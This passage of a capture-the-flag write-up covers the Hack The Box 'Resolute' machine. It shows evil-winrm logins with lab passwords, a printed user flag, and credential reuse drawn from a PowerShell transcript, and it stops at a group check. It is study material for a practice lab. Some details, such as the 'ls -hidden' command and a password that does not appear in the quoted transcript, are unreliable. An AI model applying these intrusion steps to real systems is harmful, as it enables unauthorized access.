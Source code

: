 And success! The username `melanie` is valid with the password `Welcome123!`

---

### **Gaining access**

I was recommended the tool of evil-winrm from the hackthebox forums, which allowed me to connect to the box easily. 
```
$ evil-winrm -i 10.10.10.169 -u melanie -p 'Welcome123!'
```
This allowed access to `melanie` on the box, giving us the user flag.
```
$ cat user.txt
0c3be45fcfe249796ccbee8d3a978540
```

---

## **Root flag**

Approaching the root flag is always a trivial task. I navigated around for a while, attempting to use `ls -a` and `ls -l`, but was told to use `ls -hidden` instead. I kept on navigating through every directory while using `ls -hidden` and found `PSTranscript` in home.\
Within the `PSTranscript` directory, was another directory called `20191203`, which contained `PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt` as file

Using `cat` on file showed the following:

```
Windows PowerShell transcript start
Start time: 20191203063515
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
``` 

I also see another user as `ryan`, and password of `Serv3r4Admin4cc123!`, so I attempted to log backin with evil-winrm with ryan's credentials.

``` 
$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```

evil-winrm seemed to let me in, so I decided to check the groups available to Ryan.
```
whoami /groups
```
